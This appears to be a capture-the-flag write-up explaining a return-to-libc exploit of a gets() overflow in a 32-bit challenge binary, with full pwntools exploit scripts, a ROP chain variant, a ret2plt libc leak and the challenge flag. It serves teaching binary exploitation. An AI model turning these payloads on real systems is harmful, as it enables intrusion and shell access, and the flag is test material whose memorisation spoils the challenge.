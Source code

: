 # Return-to-libc Attack Chain

**Category:** Pwn  
**Event:** PWNYcup  
**Difficulty:** Medium  
**Date:** 2024-11-15  
**Author:** Ahmed Benali

## Description

Advanced exploitation technique using return-to-libc to bypass NX bit protection
and achieve code execution.

## Challenge Overview

We're given a 32-bit ELF binary with the following protections:

- NX bit enabled (non-executable stack)
- No stack canaries
- No ASLR
- Partial RELRO

## Initial Analysis

```bash
file challenge32
checksec challenge32
```

```
challenge32: ELF 32-bit LSB executable, x86, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=def456..., not stripped

RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Vulnerability Analysis

The vulnerability exists in the `echo_input` function:

```c
void echo_input() {
    char buffer[32];
    printf("Enter message: ");
    gets(buffer);  // Buffer overflow here!
    printf("Message: %s\n", buffer);
}
```

## Exploitation Strategy

Since the stack is non-executable, we can't inject shellcode. Instead, we'll use
return-to-libc:

1. Find the offset to overwrite EIP
2. Locate system() function in libc
3. Find "/bin/sh" string in libc
4. Build the attack chain

### Step 1: Finding the Offset

```python
from pwn import *

# Create cyclic pattern
pattern = cyclic(100)
p = process('./challenge32')
p.sendline(pattern)

# EIP is overwritten at offset 44
offset = 44
```

### Step 2: Finding system() and "/bin/sh"

```python
# Since ASLR is disabled, addresses are static
libc = ELF('/lib32/libc.so.6')
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

print(f"system() address: {hex(system_addr)}")
print(f"/bin/sh address: {hex(binsh_addr)}")
```

### Step 3: Building the Exploit

For 32-bit return-to-libc, the stack layout should be:

```
[buffer overflow] [system_addr] [return_addr] [binsh_addr]
```

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'
context.arch = 'i386'

# Load binary and libc
binary = ELF('./challenge32')
libc = ELF('/lib32/libc.so.6')

def exploit():
    p = process('./challenge32')

    # Addresses (no ASLR)
    system_addr = 0xf7e12940  # system() in libc
    binsh_addr = 0xf7f4a0cf   # "/bin/sh" string
    exit_addr = 0xf7e05c30    # exit() for clean termination

    # Build payload
    payload = b"A" * 44           # Fill buffer
    payload += p32(system_addr)   # Overwrite EIP with system()
    payload += p32(exit_addr)     # Return address (exit)
    payload += p32(binsh_addr)    # Argument to system()

    log.info("Sending payload...")
    p.sendline(payload)

    # Get shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Advanced Technique: ROP Chain

For more complex scenarios, we can build a ROP chain:

```python
from pwn import *

context.arch = 'i386'
binary = ELF('./challenge32')
libc = ELF('/lib32/libc.so.6')

# Build ROP chain
rop = ROP([binary, libc])

# Call system("/bin/sh")
rop.system(next(libc.search(b'/bin/sh')))

payload = b"A" * 44 + rop.chain()
```

## Alternative: ret2plt

If system() isn't available, we can use ret2plt:

```python
# Use plt entries
puts_plt = binary.plt['puts']
puts_got = binary.got['puts']
main_addr = binary.symbols['main']

# Leak libc address first
payload1 = b"A" * 44
payload1 += p32(puts_plt)     # Call puts()
payload1 += p32(main_addr)    # Return to main
payload1 += p32(puts_got)     # Argument: puts GOT entry

# Send first payload to leak libc
p.sendline(payload1)
puts_leak = u32(p.recv(4))
libc.address = puts_leak - libc.symbols['puts']

# Now call system with known address
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

payload2 = b"A" * 44
payload2 += p32(system_addr)
payload2 += p32(0x41414141)   # Dummy return
payload2 += p32(binsh_addr)

p.sendline(payload2)
```

## Flag

```
shellmates{r3t2l1bc_1s_cl4ss1c_pwn_t3chn1qu3}
```

## Files

- challenge32 - The vulnerable 32-bit binary
- exploit.py - Complete exploitation script
- libc.so.6 - Required libc library

## References

- [Return-to-libc Attacks](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [32-bit Exploitation Basics](https://ctf101.org/binary-exploitation/return-to-libc/)
- [ROP Chain Construction](https://github.com/shellmates/rop-tutorial)

---

_Educational content for learning binary exploitation techniques._
